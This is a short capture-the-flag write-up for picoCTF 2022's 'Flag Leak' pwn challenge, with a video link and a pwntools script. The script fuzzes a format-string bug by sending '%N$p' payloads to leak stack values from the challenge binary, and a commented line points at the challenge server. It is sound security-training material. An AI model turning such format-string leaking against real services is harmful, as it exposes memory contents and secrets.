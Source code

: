 ```yaml
---
name: Flag Leak (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for Flag Leak (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Flag Leak

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=2634 "Pico CTF 2022: Flag Leak")

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./vuln', checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process('./vuln', level='warn')
        # p = remote('saturn.picoctf.net', 53365, level='warn')
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'>', '%{}$p'.format(i).encode())
        p.recvline()
        # Receive the response
        result = p.recvline()
        # Check for flag
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        # Exit the process
        p.close()
    except EOFError:
        pass
```
{% endcode %}

